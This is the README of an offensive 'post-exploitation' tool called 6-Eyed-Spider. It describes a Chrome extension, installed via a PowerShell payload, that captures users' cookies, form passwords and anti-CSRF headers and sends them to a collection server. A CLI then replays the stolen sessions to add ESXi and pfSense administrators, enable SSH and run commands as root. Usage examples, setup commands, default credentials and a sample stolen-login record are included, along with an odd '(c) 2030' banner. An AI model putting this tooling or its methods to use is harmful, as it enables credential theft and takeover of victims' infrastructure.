 # 6-Eyed-Spider - Under development 
![logo](https://github.com/M507/6-Eyed-Spider/raw/master/Examples/1.png)

### Abstract
This is a post-exploitation Red-Teaming tool. It gathers data going out and coming into the browser — data like POST requests, cookies, and chosen headers like (ANTI-CSRF headers), then sends all data to Strapi. Strapi and MongoDB store the data so that 6-Eyed-Spider-CLI can use the collected data to perform specific attacks. Attacks using the users' valid cookies to execute commands, create admin users, enable unsafe functionalities, manipulate data in systems like VMware, Pfsense, and PanOS. 

The tool takes advantage of how web applications usually are designed. No matter how many authentication steps a web application uses, there will be a weak point where if you know specific tokens, you will be able to interact with the application without the need for reauthenticating. The tool uses these specific tokens to perform critical tasks as authenticated users. It also deals with Anti-CSRF protection; thus, almost every request can be passed.

The tool consists of a couple of parts:
* Dockerized MongoDB and Strapi
  * MongoDB stores the collected data.
  * Strapi receives and manages the collected data.
* Google-Chrome Extention
  * Collects the browser's data from the blue team.
* 6-Eyed-Spider-CLI
  * Runs custom made plugins which make use of the collected data.

### Disclaimer
This Red-Team tool is used for educational purposes ONLY!

## Table of contents:
 * [Abstract](#abstract)
 * [Disclaimer](#disclaimer)
* [Table of contents:](#table-of-contents)
 * [How to:](#how-to)
    * [Use 6-Eyed-Spider-CLI:](#use-6-eyed-spider-cli)
    * [Install 6-Eyed-Spider:](#install-6-eyed-spider)
    * [Run the server manually:](#run-the-server-manually)
 * [Configure the admin panel and the API address from:](#configure-the-admin-panel-and-the-api-address-from)
    * [Then with administrator privileges:](#then-with-administrator-privileges)
    * [Clients:](#clients)
 * [6-Eyed-Spider-CLI Plugins:](#6-eyed-spider-cli-plugins)
 * [Dependencies](#dependencies)
 * [Todos](#todos)

### How to:

#### Use 6-Eyed-Spider-CLI:
```sh
Welcome! Type ? to list commands
6-Eyed-Spider> ?

Documented commands (type help <topic>):
========================================
Add_ESXI_Admin           Print_all_ESXis_under_control     exit
ESXI_Enable_SSH          Print_all_pfSenses_under_control  help
Execute_pfSense_Command  Print_creds                     

6-Eyed-Spider> help Add_ESXI_Admin
Add admin user.
Usage: Add_ESXI_Admin <ESXI_IP> <USERNAME> <STRONG_PASSWORD> <Description>
Add_ESXI_Admin 192.168.1.10 BLACK_TEAM Liverpool!1!1! Description1
Add_ESXI_Admin 192.168.1.10 ADMIN Liverpool!1998 Description2

6-Eyed-Spider> help Execute_pfSense_Command
Enable SSH.
Usage: Execute_pfSense_Command <ESXI_IP> <Command>
Execute_pfSense_Command 192.168.1.10 id
Execute_pfSense_Command 192.168.1.10 whoami

6-Eyed-Spider> Execute_pfSense_Command 192.168.1.254 whoami

root 

6-Eyed-Spider> Print_all_pfSenses_under_control

https://192.168.1.254/
https://192.168.2.254/
https://192.168.3.254/
https://192.168.4.254/

6-Eyed-Spider>
```

#### Install 6-Eyed-Spider:
```sh
[M507:~]$ bash Install.sh
```
#### Run the server manually:
```sh
[M507:~]$ # Start the database
[M507:~]$ docker-compose -f docker-compose-db.yml up --build -d
[M507:~]$ # Wait 20 seconds until its states changes to healthy 
[M507:~]$ watch docker-compose -f docker-compose-db.yml ps
[M507:~]$ # Insert db.dump into the database, using this command
[M507:~]$ docker exec -i strapi-docker_db_1 sh -c 'mongorestore --archive'< RedAdmin.dmup
[M507:~]$ # Start the Strapi
[M507:~]$ docker-compose -f docker-compose-main.yml up --build -d
```
Or run Run.sh, which executes the same commands above.
```sh
[M507:~]$ bash Run.sh
```
###  Configure the admin panel and the API address from:
```sh
[M507:~]$ cat ./strapi-app/config/environments/development/server.json
{
  "host": "localhost",
  "port": 1337,
  "proxy": {
   "enabled": false
  },
  "autoReload": {
    "enabled": true
  },
  "cron": {
    "enabled": false
  },
  "admin": {
    "autoOpen": false
  }
}
```

Info ☄️  Default Admin panel: http://localhost:1337/admin
Info ⚡️ Default Server: http://localhost:1337

#### Then with administrator privileges:
Default credentials: admin:RedAdmin
* Insert all the targeted domains into: http://127.0.0.1:1337/Domains
* Insert all the targeted headers into: http://127.0.0.1:1337/Headers
* http://127.0.0.1:1337/Posts receives data from the public without any privileges.
* /Posts receives: IP (String),ID (String), Site (String), and Data (Json), Type (String). Type: either "Cookie", "Header", or "Form".
An example:
```html
{
    "IP": "192.168.1.2",
    "ID": 31231,
    "Site": "https://aavtrain.com/index.asp",
    "Data": {
        "Submit": "Submit",
        "login": "true",
        "password": "MYPASSWORD",
        "user_name": "admin"
    },
    "Type": "Cookies"
}
```

#### Clients:
```sh
Microsoft Windows [Version 10.0.17763.503]
(c) 2030 Microsoft Corporation. All rights reserved.

C:\Users\Mohad> .\New-ChromeExtension.ps1 (Powershell Payload attached). 
```


### 6-Eyed-Spider-CLI Plugins:
6-Eyed-Spider-CLI runs customized plugins that make use of the valid collected data from the API. 
+ VMware
    + Add an administrator
    + Start SSH
+ Pfsense
    + Add an administrator
    + Execute a command

### Dependencies
+ Docker-compose

### Todos

- Firefox extension configures itself based on the data on /domains /headers.
- Firefox extension sends All POST requests, cookies to /Posts as described above.
- New-FirefoxExtension.ps1
